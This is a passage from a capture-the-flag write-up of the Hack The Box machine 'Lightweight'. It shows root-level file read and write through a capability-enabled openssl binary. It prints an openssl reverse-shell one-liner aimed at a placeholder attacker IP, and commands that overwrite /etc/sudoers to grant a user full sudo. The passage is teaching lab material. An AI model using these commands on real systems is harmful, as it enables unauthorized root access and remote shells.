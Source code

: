

    [ldapuser1@lightweight ~]$ ./openssl base64 -in /root/root.txt | base64 -d
    f1d4e309...



### root Shell

Of course I want a root shell, and arbitrary read and write offers many
paths on Linux. One path that might be tempting is to use `openssl` to
get a shell, using something like
[this](https://medium.com/@int0x33/day-43-reverse-shell-with-openssl-1ee2574aa998)
or like I did in
[Ethereal](/htb-ethereal.md#shell-via-openssl). That would
be using something like:



    mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect <ATTACKER-IP>:<PORT> > /tmp/s; rm /tmp/s



The reason that won't work is because while the `openssl` process has
capabilities, the `/bin/sh` does not, so that shell will still run
without the abilities I am looking for.

But, I can fall back to things like adding a user in `/etc/passwd`,
overwriting a suid binary, or adding a root cron job. In this case, I'll
edit `/etc/sudoers`.

First I'll make a copy of the existing file in `/dev/shm`. Then I'll add
a line to allow my current user to



    [ldapuser1@lightweight ~]$ ./openssl base64 -in /etc/sudoers | base64 -d > /dev/shm/t
    [ldapuser1@lightweight ~]$ echo "ldapuser1    ALL=(ALL)       ALL" >> /dev/shm/t
    [ldapuser1@lightweight ~]$ cat /dev/shm/t | base64 | ./openssl enc -d -base64 -out /etc/sudoers



Now I have an entry in the `sudoers` file, so I can `sudo su`:



    [ldapuser1@lightweight ~]$ sudo su
    [sudo] password for ldapuser1:
    [root@lightweight ldapuser1]# 



## Beyond Root

### Which ldap Creds / status.php

When I found ldapuser1's creds in the `backup.7z` file, I was confused.
I had identified that visiting `status.php` initiated ldap activity, but
I had captured activity from ldapuser2. Once I had a shell as root, I
went into the web directories and grabbed a copy of `status.php`. Turns
out I was right:
